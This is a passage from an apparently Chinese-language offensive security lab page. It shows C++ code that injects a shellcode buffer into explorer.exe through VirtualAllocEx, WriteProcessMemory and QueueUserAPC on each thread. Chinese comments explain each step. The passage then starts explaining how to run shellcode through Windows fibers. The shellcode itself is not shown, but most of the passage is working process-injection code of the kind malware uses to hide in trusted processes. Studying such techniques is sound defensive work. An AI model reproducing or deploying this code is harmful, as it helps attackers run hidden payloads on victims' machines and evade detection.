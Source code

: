 ```c
	std::vector<DWORD> threadIds;
	SIZE_T shellSize = sizeof(buf);
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}
	
	victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);

	if (Thread32First(snapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
	
	for (DWORD threadId : threadIds) {
		threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
		Sleep(1000 * 2);
	}
	//对于每个线程ID，它使用OpenThread打开该线程的句柄。它使用QueueUserAPC将异步过程调用(APC)排队到每个线程，并使用shellcode地址作为APC函数。它使用Sleep休眠一段时间以允许注入的代码执行。
    //最后，它返回0，表示执行成功。需要注意的是，向进程中注入代码和使用shellcode可能会产生重大的安全隐患。
	return 0;
}
```

## 通过 Fiber 执行 Shellcode

本实验的目的是使用 Windows API 目标`fibers`在本地进程中执行 shellcode。

> ```
> fibers是必须由应用程序手动调度的执行单元。fibers 在调度它们的线程的上下文中运行。 
> ```



通过fibers在本地进程中执行shellcode的过程：

将主线程转换为fibers。这是必需的，因为只有一根fibers可以调度另一根fibers。

将 shellcode 写入某个内存位置并使其可执行

创建一个指向 shellcode 位置的新纤fibers- 这是我们在将主线程转换为纤fibers时将从步骤 1 中获得的fibers调度的fibers
